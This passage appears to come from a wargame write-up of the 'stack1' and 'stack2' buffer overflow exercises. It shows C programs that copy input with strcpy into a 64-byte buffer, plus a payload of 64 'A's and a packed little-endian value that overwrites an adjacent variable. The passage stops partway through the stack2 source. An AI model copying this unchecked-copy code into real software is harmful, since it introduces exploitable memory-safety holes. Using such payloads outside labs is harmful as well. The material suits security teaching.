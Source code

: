 In this challenge, we have a code which is much the same as previous one.

```
/* stack1.c */
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

Not only overload **buffer**, we need make **modified**'s value same as **0x61626364** (equal to **dcba** in ascii).
Cuz the execute environment belongs to Little Endiance system, so you must **pack('<I', targetvalue)**

```
payload = 64 * 'A' + pack('<I", '0x61626364')
        = 64 * 'A' + '\x64\x63\x62\x61'
```

## STACK 2

```
/* stack2.c */
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
```